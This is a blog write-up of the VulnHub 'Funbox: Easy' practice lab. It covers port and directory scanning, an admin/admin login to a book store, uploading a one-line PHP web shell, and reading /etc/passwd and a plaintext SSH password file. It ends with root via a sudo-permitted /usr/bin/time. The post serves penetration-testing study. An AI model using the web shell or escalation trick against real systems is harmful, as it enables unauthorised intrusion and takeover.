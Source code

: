 ```yaml
---
title: WRITE-UP FUNBOX EASY
date: 2024-07-23 14:59:59 +0700
categories: [vulnhub, pentest, red team, oscp]
tags: [write up]     # TAG names should always be lowercase
---
```


# Write-Up funbox:  Easy
## 1. Enumeration

i used netdicover to see where is ur lab

```terminal
sudo netdiscover
```

![target](/assets/img/funbox_easy/funbox3_netdiscover.png)

target is : 192.168.137.45

i used nmap to see port open 

```terminal
sudo nmap -sC -sV -vvv -p- --min-rate=1000 192.168.137.45

```

*   sC : Enable default script to quick and safe
*   sV : Detect service
*   vvv : increase verbosity
*   p : port to scan "-p-" is all port 1-65535
*   min-rate=1000 : packets are sent < 1000s
  
![target](/assets/img/funbox_easy/funbox3_nmap.png)

I checked this website . hmm apache default . I think this site have more

![target](/assets/img/funbox_easy/funbox3_checkport80.png)

so i used dirsearch to check subfolder of this site and i used default command

```terminal
dirsearch -u http://192.168.137.45
```

much more interesting i imagine 

![alt text](/assets/img/funbox_easy/funbox3_dirsearch.png)

## 2. Post Exploitation

first, i check /admin/ and i see a login simple i wanna try bruteforce but i cann't recive anything .

![alt text](/assets/img/funbox_easy/funbox3_dir_admin.png)

second, i look /store/ and boom i see a opensource store ? but i focus on admin login

![alt text](/assets/img/funbox_easy/funbox3_dir_store.png)


yeah, after that's i had been disconnected so i was be changed ip victims is 192.168.205.5

i followed admin/store login page 
![alt text](/assets/img/funbox_easy/funbox3_adminlogin_store.png)

i try login with user is admin and password is admin andddd bummm i can login with admin account then look at page i think i can upload a simple shell with add a book .

![alt text](/assets/img/funbox_easy/funbox3_admin_book.png)


![alt text](/assets/img/funbox_easy/funbox3_upload_a_book.png)

i will try upload a simple shell to take over this site
this file is ```shell.php```

```php
<?php echo system($_GET["cmd"]);?> 

```

after uploading answer the question. How can i trigger that's file i look a file i upload i can see a link

![alt text](/assets/img/funbox_easy/funbox3_see_file_uploads.png)

it's time to take control this site. 

![alt text](/assets/img/funbox_easy/funbox3_RCE_www-data.png)

but not enough for me i wanna ```root```

i see ```  /etc/passwd ``` hope to see something

![alt text](/assets/img/funbox_easy/funbox3_usertony.png)

i see user Tony let's check ```/home/tony```
i see a file is password.txt and i can see user ssh of Tony 

![alt text](/assets/img/funbox_easy/funbox3_home_tony.png)
![alt text](/assets/img/funbox_easy/funbox3_password_ssh_tony.png)

ssh time

## 3. Privilege Escalation

![alt text](/assets/img/funbox_easy/funbox3_SUID_tony.png)

i use ``` sudo -l ``` for some tricky
 
and i see ``` usr/bin/time ``` can run with sudo and  ``` NOPASSWD ```

right now we can run to privilege escalation 

```
sudo /usr/bin/time /bin/bash
```

right now we can get a ``` root ``` 

![alt text](/assets/img/funbox_easy/funbox3_root.png)
## Bingo and thanks for reading
